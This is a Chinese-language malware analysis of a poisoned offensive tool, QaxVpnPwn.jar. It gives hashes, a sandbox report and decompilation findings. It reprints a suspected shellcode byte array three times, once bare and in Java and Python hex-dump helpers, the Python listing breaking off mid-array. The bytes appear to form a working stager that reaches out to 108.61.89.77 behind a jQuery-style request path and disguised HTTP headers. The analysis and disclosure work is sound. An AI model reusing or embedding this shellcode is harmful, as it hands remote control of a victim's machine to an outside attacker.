







# xaq-vpn-pwn工具投毒事件

## 基本信息
QaxVpnPwn.jar
哈希: 
    MD4: 55d3d7e6ed3d34ca19f292fb6725aaab
    MD5: b330ac8ff7b48d9e61700fae1ead4a1f
    SHA1: cf5c4ea0320689854499a77c9378ed79ba82a542
    SHA224: ee1d7bf17d1f8a56d55cb4fcfdbd608438d3afc0336ef9d513c4d1f1
    SHA256: 5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64
    SHA384: 9a1a0c83ed37a079e368b193681361b2d3b52e7ff0ca3901946a81dc849e75d0e23d3d28df44ead5ca5828387a1b7fb4
    SHA512: dc5430044e6ad587601e465a5caa82951a1167d63d493d26d7f0dd8942326ec390be7aed6af0bf5c95a7f247845c81acbaf85081220e2db1b105c8723fadbe65



## 静态分析
在威胁情报查询
```
[+]threatbook情报:
概要信息：
威胁等级：恶意
是否为白名单文件：非白名单
文件提交时间：2023-08-15 10:59:45
文件名称：QaxVpnPwn.jar
文件类型：JAR
文件的 Hash 值：5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64
静态标签：jar
检测标签：无数据
威胁分数：0
本次指定获取的沙箱运行分析环境：win10_1903_enx64_office2016
样本分析成功的所有沙箱运行环境列表：win7_sp1_enx86_office2013,win7_sp1_enx64_office2013,win10_1903_enx64_office2016
反病毒扫描引擎检出率：0/24
反病毒扫描引擎检测结果：
扫描时间：2023-08-15 13:48:15
检测结果：
'IKARUS': 'safe'
'vbwebshell': 'safe'
'Avast': 'safe'
'Avira': 'safe'
'Sophos': 'safe'
'K7': 'safe'
'Rising': 'safe'
'Kaspersky': 'safe'
'Panda': 'safe'
'Baidu-China': 'safe'
'NANO': 'safe'
'Antiy': 'safe'
'AVG': 'safe'
'Baidu': 'safe'
'DrWeb': 'safe'
'GDATA': 'safe'
'Microsoft': 'safe'
'Qihu360': 'safe'
'ESET': 'safe'
'ClamAV': 'safe'
'JiangMin': 'safe'
'Trustlook': 'safe'
'MicroAPT': 'safe'
'OneAV': 'safe'
静态信息：
文件类型：Java archive data (JAR)
文件名称：5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64-1692078451
行为签名：
签名名称：console_output
签名描述：命令行控制台有数据输出
签名分类：General
严重等级：1
行为签名：
签名名称：create_file_intemp
签名描述：在临时目录中创建文件
签名分类：General
严重等级：1
行为签名：
签名名称：getsysteminfo
签名描述：获取系统信息
签名分类：Environment Awareness
严重等级：1
行为签名：
签名名称：ipurl_in_string
签名描述：在文件内存中发现IP地址或url
签名分类：Static File Characteristics
严重等级：1
行为签名：
签名名称：open_cfg_file
签名描述：尝试打开应用程序的配置文件（.cfg）
签名分类：General
严重等级：1
行为签名：
签名名称：query_machine_timezone
签名描述：包含查询计算机时区的功能
签名分类：Environment Awareness
严重等级：1
行为签名：
签名名称：create_guard_page
签名描述：创建PAGE_GUARD属性的内存页，通常用于反逆向和反调试
签名分类：Anti-Reverse Engineering
严重等级：2
行为签名：
签名名称：evasion_time
签名描述：感知时区，常用于躲避恶意软件分析系统
签名分类：General
严重等级：2
释放行为：无
进程行为：
共分析了1个进程
进程名称：java.exe
进程命令："C:\Program Files\Java\jre1.8.0_121\bin\java.exe" -jar C:\gym95dg\QaxVpnPwn.jar
进程 ID：1692
父进程 ID：1952
网络行为：
dns_servers：8.8.4.4,8.8.8.8
静态信息：
文件类型：Java archive data (JAR)
文件名称：5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64-1692078451
分析报告链接：
https://s.threatbook.com/report/file/5c931a2c1e2d5bccfa4ba4f0c7ad59dd761850ded18364aa94385dbf1db3ab64
```


### jar反编译分析
使用jadx-gui查看，可以看到这段可疑代码

看到一段疑似shellcode
```
-4, 72, -125, -28, -16, -24, -56, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, -46, 101, 72, -117, 82, 96, 72, -117, 82, 24, 72, -117, 82, 32, 72, -117, 114, 80, 72, 15, -73, 74, 74, 77, 49, -55, 72, 49, -64, -84, 60, 97, 124, 2, 44, 32, 65, -63, -55, 13, 65, 1, -63, -30, -19, 82, 65, 81, 72, -117, 82, 32, -117, 66, 60, 72, 1, -48, 102, -127, 120, 24, 11, 2, 117, 114, -117, Byte.MIN_VALUE, -120, 0, 0, 0, 72, -123, -64, 116, 103, 72, 1, -48, 80, -117, 72, 24, 68, -117, 64, 32, 73, 1, -48, -29, 86, 72, -1, -55, 65, -117, 52, -120, 72, 1, -42, 77, 49, -55, 72, 49, -64, -84, 65, -63, -55, 13, 65, 1, -63, 56, -32, 117, -15, 76, 3, 76, 36, 8, 69, 57, -47, 117, -40, 88, 68, -117, 64, 36, 73, 1, -48, 102, 65, -117, 12, 72, 68, -117, 64, 28, 73, 1, -48, 65, -117, 4, -120, 72, 1, -48, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, -125, -20, 32, 65, 82, -1, -32, 88, 65, 89, 90, 72, -117, 18, -23, 79, -1, -1, -1, 93, 106, 0, 73, -66, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 73, -119, -26, 76, -119, -15, 65, -70, 76, 119, 38, 7, -1, -43, 72, 49, -55, 72, 49, -46, 77, 49, -64, 77, 49, -55, 65, 80, 65, 80, 65, -70, 58, 86, 121, -89, -1, -43, -23, -109, 0, 0, 0, 90, 72, -119, -63, 65, -72, -69, 1, 0, 0, 77, 49, -55, 65, 81, 65, 81, 106, 3, 65, 81, 65, -70, 87, -119, -97, -58, -1, -43, -21, 121, 91, 72, -119, -63, 72, 49, -46, 73, -119, -40, 77, 49, -55, 82, 104, 0, 50, -64, -124, 82, 82, 65, -70, -21, 85, 46, 59, -1, -43, 72, -119, -58, 72, -125, -61, 80, 106, 10, 95, 72, -119, -15, -70, 31, 0, 0, 0, 106, 0, 104, Byte.MIN_VALUE, 51, 0, 0, 73, -119, -32, 65, -71, 4, 0, 0, 0, 65, -70, 117, 70, -98, -122, -1, -43, 72, -119, -15, 72, -119, -38, 73, -57, -64, -1, -1, -1, -1, 77, 49, -55, 82, 82, 65, -70, 45, 6, 24, 123, -1, -43, -123, -64, 15, -123, -99, 1, 0, 0, 72, -1, -49, 15, -124, -116, 1, 0, 0, -21, -77, -23, -28, 1, 0, 0, -24, -126, -1, -1, -1, 47, 106, 113, 117, 101, 114, 121, 45, 51, 46, 51, 46, 50, 46, 115, 108, 105, 109, 46, 109, 105, 110, 46, 106, 115, 0, -50, -33, 59, 98, 0, 12, Byte.MAX_VALUE, 25, 60, 50, -28, -90, 0, 85, 64, -41, -12, -32, 43, -70, -94, -106, -92, 106, 19, -120, 56, -115, 83, 26, -23, -104, -47, 87, -88, -126, 63, -37, 5, -68, -126, -55, 46, 56, 37, -19, 17, -117, -119, -38, 47, -34, 70, 0, 65, 99, 99, 101, 112, 116, 58, 32, 116, 101, 120, 116, 47, 104, 116, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 104, 116, 109, 108, 43, 120, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 109, 108, 59, 113, 61, 48, 46, 57, 44, 42, 47, 42, 59, 113, 61, 48, 46, 56, 13, 10, 65, 99, 99, 101, 112, 116, 45, 76, 97, 110, 103, 117, 97, 103, 101, 58, 32, 101, 110, 45, 85, 83, 44, 101, 110, 59, 113, 61, 48, 46, 53, 13, 10, 82, 101, 102, 101, 114, 101, 114, 58, 32, 104, 116, 116, 112, 58, 47, 47, 99, 111, 100, 101, 46, 106, 113, 117, 101, 114, 121, 46, 99, 111, 109, 47, 13, 10, 65, 99, 99, 101, 112, 116, 45, 69, 110, 99, 111, 100, 105, 110, 103, 58, 32, 103, 122, 105, 112, 44, 32, 100, 101, 102, 108, 97, 116, 101, 13, 10, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 32, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 51, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 55, 46, 48, 59, 32, 114, 118, 58, 49, 49, 46, 48, 41, 32, 108, 105, 107, 101, 32, 71, 101, 99, 107, 111, 13, 10, 0, 53, 4, 21, -24, -43, -77, -6, -72, -3, 118, -96, 106, 118, -42, 80, 106, 52, 2, 115, 52, 3, -57, -61, -20, -35, -60, 23, -101, -88, -52, -67, 14, -75, -80, 44, -13, 78, 101, -6, -65, 22, -80, -43, -31, 104, 120, 65, 108, 94, -107, 30, 33, 4, 25, 97, 0, 65, -66, -16, -75, -94, 86, -1, -43, 72, 49, -55, -70, 0, 0, 64, 0, 65, -72, 0, 16, 0, 0, 65, -71, 64, 0, 0, 0, 65, -70, 88, -92, 83, -27, -1, -43, 72, -109, 83, 83, 72, -119, -25, 72, -119, -15, 72, -119, -38, 65, -72, 0, 32, 0, 0, 73, -119, -7, 65, -70, 18, -106, -119, -30, -1, -43, 72, -125, -60, 32, -123, -64, 116, -74, 102, -117, 7, 72, 1, -61, -123, -64, 117, -41, 88, 88, 88, 72, 5, -81, 15, 0, 0, 80, -61, -24, Byte.MAX_VALUE, -3, -1, -1, 49, 48, 56, 46, 54, 49, 46, 56, 57, 46, 55, 55, 0, 58, -34, 104, -79
```

```java
public class Helloworld {
    public static void main(String[] args) {
        byte[] bArr = {-4, 72, -125, -28, -16, -24, -56, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, -46, 101, 72, -117, 82, 96, 72, -117, 82, 24, 72, -117, 82, 32, 72, -117, 114, 80, 72, 15, -73, 74, 74, 77, 49, -55, 72, 49, -64, -84, 60, 97, 124, 2, 44, 32, 65, -63, -55, 13, 65, 1, -63, -30, -19, 82, 65, 81, 72, -117, 82, 32, -117, 66, 60, 72, 1, -48, 102, -127, 120, 24, 11, 2, 117, 114, -117, -120, 0, 0, 0, 72, -123, -64, 116, 103, 72, 1, -48, 80, -117, 72, 24, 68, -117, 64, 32, 73, 1, -48, -29, 86, 72, -1, -55, 65, -117, 52, -120, 72, 1, -42, 77, 49, -55, 72, 49, -64, -84, 65, -63, -55, 13, 65, 1, -63, 56, -32, 117, -15, 76, 3, 76, 36, 8, 69, 57, -47, 117, -40, 88, 68, -117, 64, 36, 73, 1, -48, 102, 65, -117, 12, 72, 68, -117, 64, 28, 73, 1, -48, 65, -117, 4, -120, 72, 1, -48, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, -125, -20, 32, 65, 82, -1, -32, 88, 65, 89, 90, 72, -117, 18, -23, 79, -1, -1, -1, 93, 106, 0, 73, -66, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 73, -119, -26, 76, -119, -15, 65, -70, 76, 119, 38, 7, -1, -43, 72, 49, -55, 72, 49, -46, 77, 49, -64, 77, 49, -55, 65, 80, 65, 80, 65, -70, 58, 86, 121, -89, -1, -43, -23, -109, 0, 0, 0, 90, 72, -119, -63, 65, -72, -69, 1, 0, 0, 77, 49, -55, 65, 81, 65, 81, 106, 3, 65, 81, 65, -70, 87, -119, -97, -58, -1, -43, -21, 121, 91, 72, -119, -63, 72, 49, -46, 73, -119, -40, 77, 49, -55, 82, 104, 0, 50, -64, -124, 82, 82, 65, -70, -21, 85, 46, 59, -1, -43, 72, -119, -58, 72, -125, -61, 80, 106, 10, 95, 72, -119, -15, -70, 31, 0, 0, 0, 106, 0, 104, 51, 0, 0, 73, -119, -32, 65, -71, 4, 0, 0, 0, 65, -70, 117, 70, -98, -122, -1, -43, 72, -119, -15, 72, -119, -38, 73, -57, -64, -1, -1, -1, -1, 77, 49, -55, 82, 82, 65, -70, 45, 6, 24, 123, -1, -43, -123, -64, 15, -123, -99, 1, 0, 0, 72, -1, -49, 15, -124, -116, 1, 0, 0, -21, -77, -23, -28, 1, 0, 0, -24, -126, -1, -1, -1, 47, 106, 113, 117, 101, 114, 121, 45, 51, 46, 51, 46, 50, 46, 115, 108, 105, 109, 46, 109, 105, 110, 46, 106, 115, 0, -50, -33, 59, 98, 0, 12, 25, 60, 50, -28, -90, 0, 85, 64, -41, -12, -32, 43, -70, -94, -106, -92, 106, 19, -120, 56, -115, 83, 26, -23, -104, -47, 87, -88, -126, 63, -37, 5, -68, -126, -55, 46, 56, 37, -19, 17, -117, -119, -38, 47, -34, 70, 0, 65, 99, 99, 101, 112, 116, 58, 32, 116, 101, 120, 116, 47, 104, 116, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 104, 116, 109, 108, 43, 120, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 109, 108, 59, 113, 61, 48, 46, 57, 44, 42, 47, 42, 59, 113, 61, 48, 46, 56, 13, 10, 65, 99, 99, 101, 112, 116, 45, 76, 97, 110, 103, 117, 97, 103, 101, 58, 32, 101, 110, 45, 85, 83, 44, 101, 110, 59, 113, 61, 48, 46, 53, 13, 10, 82, 101, 102, 101, 114, 101, 114, 58, 32, 104, 116, 116, 112, 58, 47, 47, 99, 111, 100, 101, 46, 106, 113, 117, 101, 114, 121, 46, 99, 111, 109, 47, 13, 10, 65, 99, 99, 101, 112, 116, 45, 69, 110, 99, 111, 100, 105, 110, 103, 58, 32, 103, 122, 105, 112, 44, 32, 100, 101, 102, 108, 97, 116, 101, 13, 10, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 32, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 51, 59, 32, 84, 114, 105, 100, 101, 110, 116, 47, 55, 46, 48, 59, 32, 114, 118, 58, 49, 49, 46, 48, 41, 32, 108, 105, 107, 101, 32, 71, 101, 99, 107, 111, 13, 10, 0, 53, 4, 21, -24, -43, -77, -6, -72, -3, 118, -96, 106, 118, -42, 80, 106, 52, 2, 115, 52, 3, -57, -61, -20, -35, -60, 23, -101, -88, -52, -67, 14, -75, -80, 44, -13, 78, 101, -6, -65, 22, -80, -43, -31, 104, 120, 65, 108, 94, -107, 30, 33, 4, 25, 97, 0, 65, -66, -16, -75, -94, 86, -1, -43, 72, 49, -55, -70, 0, 0, 64, 0, 65, -72, 0, 16, 0, 0, 65, -71, 64, 0, 0, 0, 65, -70, 88, -92, 83, -27, -1, -43, 72, -109, 83, 83, 72, -119, -25, 72, -119, -15, 72, -119, -38, 65, -72, 0, 32, 0, 0, 73, -119, -7, 65, -70, 18, -106, -119, -30, -1, -43, 72, -125, -60, 32, -123, -64, 116, -74, 102, -117, 7, 72, 1, -61, -123, -64, 117, -41, 88, 88, 88, 72, 5, -81, 15, 0, 0, 80, -61, -24, -3, -1, -1, 49, 48, 56, 46, 54, 49, 46, 56, 57, 46, 55, 55, 0, 58, -34, 104, -79}; // 数据省略以保持简洁
        int a;
        for (int i = 0; i < bArr.length; i++) {
            if (bArr[i] < 0) {
                a = 256 + bArr[i];
            } else {
                a = bArr[i];
            }
            System.out.printf("%02x" + " ", a);
        }
    }
}

```


python打印shellcode
```python
bArr = [-4, 72, -125, -28, -16, -24, -56, 0, 0, 0, 65, 81, 65, 80, 82, 81, 86, 72, 49, -46, 101, 72, -117, 82, 96, 72, -117, 82, 24, 72, -117, 82, 32, 72, -117, 114, 80, 72, 15, -73, 74, 74, 77, 49, -55, 72, 49, -64, -84, 60, 97, 124, 2, 44, 32, 65, -63, -55, 13, 65, 1, -63, -30, -19, 82, 65, 81, 72, -117, 82, 32, -117, 66, 60, 72, 1, -48, 102, -127, 120, 24, 11, 2, 117, 114, -117, -120, 0, 0, 0, 72, -123, -64, 116, 103, 72, 1, -48, 80, -117, 72, 24, 68, -117, 64, 32, 73, 1, -48, -29, 86, 72, -1, -55, 65, -117, 52, -120, 72, 1, -42, 77, 49, -55, 72, 49, -64, -84, 65, -63, -55, 13, 65, 1, -63, 56, -32, 117, -15, 76, 3, 76, 36, 8, 69, 57, -47, 117, -40, 88, 68, -117, 64, 36, 73, 1, -48, 102, 65, -117, 12, 72, 68, -117, 64, 28, 73, 1, -48, 65, -117, 4, -120, 72, 1, -48, 65, 88, 65, 88, 94, 89, 90, 65, 88, 65, 89, 65, 90, 72, -125, -20, 32, 65, 82, -1, -32, 88, 65, 89, 90, 72, -117, 18, -23, 79, -1, -1, -1, 93, 106, 0, 73, -66, 119, 105, 110, 105, 110, 101, 116, 0, 65, 86, 73, -119, -26, 76, -119, -15, 65, -70, 76, 119, 38, 7, -1, -43, 72, 49, -55, 72, 49, -46, 77, 49, -64, 77, 49, -55, 65, 80, 65, 80, 65, -70, 58, 86, 121, -89, -1, -43, -23, -109, 0, 0, 0, 90, 72, -119, -63, 65, -72, -69, 1, 0, 0, 77, 49, -55, 65, 81, 65, 81, 106, 3, 65, 81, 65, -70, 87, -119, -97, -58, -1, -43, -21, 121, 91, 72, -119, -63, 72, 49, -46, 73, -119, -40, 77, 49, -55, 82, 104, 0, 50, -64, -124, 82, 82, 65, -70, -21, 85, 46, 59, -1, -43, 72, -119, -58, 72, -125, -61, 80, 106, 10, 95, 72, -119, -15, -70, 31, 0, 0, 0, 106, 0, 104, 51, 0, 0, 73, -119, -32, 65, -71, 4, 0, 0, 0, 65, -70, 117, 70, -98, -122, -1, -43, 72, -119, -15, 72, -119, -38, 73, -57, -64, -1, -1, -1, -1, 77, 49, -55, 82, 82, 65, -70, 45, 6, 24, 123, -1, -43, -123, -64, 15, -123, -99, 1, 0, 0, 72, -1, -49, 15, -124, -116, 1, 0, 0, -21, -77, -23, -28, 1, 0, 0, -24, -126, -1, -1, -1, 47, 106, 113, 117, 101, 114, 121, 45, 51, 46, 51, 46, 50, 46, 115, 108, 105, 109, 46, 109, 105, 110, 46, 106, 115, 0, -50, -33, 59, 98, 0, 12, 25, 60, 50, -28, -90, 0, 85, 64, -41, -12, -32, 43, -70, -94, -106, -92, 106, 19, -120, 56, -115, 83, 26, -23, -104, -47, 87, -88, -126, 63, -37, 5, -68, -126, -55, 46, 56, 37, -19, 17, -117, -119, -38, 47, -34, 70, 0, 65, 99, 99, 101, 112, 116, 58, 32, 116, 101, 120, 116, 47, 104, 116, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 104, 116, 109, 108, 43, 120, 109, 108, 44, 97, 112, 112, 108, 105, 99, 97, 116, 105, 111, 110, 47, 120, 109, 108, 59, 113, 61, 48, 46, 57, 44, 42, 47, 42, 59, 113, 61, 48, 46, 56, 13, 